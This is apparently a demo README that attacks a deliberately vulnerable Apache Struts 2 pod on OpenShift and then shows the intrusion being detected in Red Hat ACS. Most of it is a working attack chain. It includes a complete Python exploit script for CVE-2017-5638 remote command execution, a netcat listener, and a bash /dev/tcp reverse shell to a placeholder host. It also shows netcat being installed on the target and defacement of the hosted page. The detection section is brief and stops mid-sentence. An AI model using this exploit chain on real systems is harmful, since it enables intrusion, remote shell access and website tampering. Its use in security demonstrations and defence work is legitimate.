

# Demo of Kubernetes Container Hack in OpenShift, and protection via Red Hat ACS

## Exloiting a Vulnerability

Exploiting the Apache Struts 2 Java web framework CVE.

### Setup Vulnerable Target Container

Deploy Pod with vulnerable version:
```bash
oc create -f vulnerable-pod.yaml
```

Access web application at http://<openshiftappsip>:30004.

### Attack Target Container

We are now going to use the Apache Struts 2 CVE to exploit the container using **Strutsshock**.

An invalid Content-Type header is passed into a request which throws an error. The error is not escaped properly which allows us to inject additional commands which will be performed on the target machine.

Create Python script for strutshock attack:

```bash
vi attack.py
```

Copy following script:

```python
import http.client
import urllib.error
import urllib.parse
import urllib.request


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"
    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib.request.Request(url, headers=headers)
        page = urllib.request.urlopen(request).read()
    except http.client.IncompleteRead as e:
        page = e.partial
    print(page)
    return page


if __name__ == '__main__':
    import sys

    if len(sys.argv) != 3:
        print("[*] str.py <url> <cmd>")
    else:
        print('[*]CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print(("[*] cmd: %s\n" % cmd))
        exploit(url, cmd)
```

Execute command on target - Remote Command Execution (RCE):

```bash
python3 attack.py http://<openshiftappsip>:30004/ "whoami"
```

### Gain Reverse Shell Access

At this stage we can execute commands on the target machine. We want to go a step further by gaining a reverse shell into the container.

### Prepare to receive reverse shell

Firt we need to listen on the command and control server for a connection using netcat. 

```bash
nc -lnvp 4444
```

#### Get Reverse Shell on Target

From running a few commands we can see that the target vulnerable application is running as the root user on the target. This means we can do anything that we won't on the target and potentially on the host it is running on as well. We can also install any additional libraries that we need to setup command and control.

By running the following command we can see that it is running an old version of Debian Jessie:

```bash
python3 attack.py http://<openshiftappsip>:30004/ "apt-get update"
```

We can update the package manager sources so we can install additional libraries to exploit the target. We will install net can which will create a connection out to our command and control server.

```bash
python3 attack.py http://<openshiftappsip>:30004/ "sed -i \'s/deb.debian.org/archive.debian.org/g\' /etc/apt/sources.list"
python3 attack.py http://<openshiftappsip>:30004/ "apt-get update"
python3 attack.py http://<openshiftappsip>:30004/ "apt-get install -y --force-yes netcat"
```

Now that netcat is installed we can establish an outbound connection from our target to our command and control server. Since we are using port 443 it is likely that this traffic would be allowed outbound by the target's network:

```bash
python3 attack.py http://<openshiftappsip>:30004/ "bash -i >& /dev/tcp/<localip>/4444 0>&1"
```

We now have a reverse shell into the target.

Use the following in the command and control shell to allow clearing the console:
```bash
export TERM=xterm
```

We can see that this is a Docker host and running on Kubernetes:
```bash
ls -la
env
```

If we had mounted any secrets via Environment Variables we could now have access to them.

#### Make Changes to Target

Now that we have access we can make any change that we want to the system. This may include:

- Adding malware
- Creating a command and control server inside the target's network perimeter
- Deploying a worm
- Adding malware to their website being hosted
- Vandalizing the website
- Moving laterally within the target's network

The following can be used to make a change to the showcase screen which we have already found in our reconnaissance.

```bash
cd /usr/local/tomcat/webapps/ROOT
cat showcase.jsp
sed -i 's/Welcome!/You have been Hacked!/g' showcase.jsp
cat showcase.jsp
```

### Identifying the intrusion in ACS

In Central, click "Violations". 



You should be able to see "Shell Spawned by Java Application". This is the exploit and we can identify the vulnerable container by looking under the Entity column. The guilty party is "web" that is located in the default namespace. 

Under "Platform Configuration" in the left-hand menu, click on "Policy Management". In the search bar, search for Policy, then Shell. You should see "Shell Spawned by Java Application". Click the 3 dots on the right and select 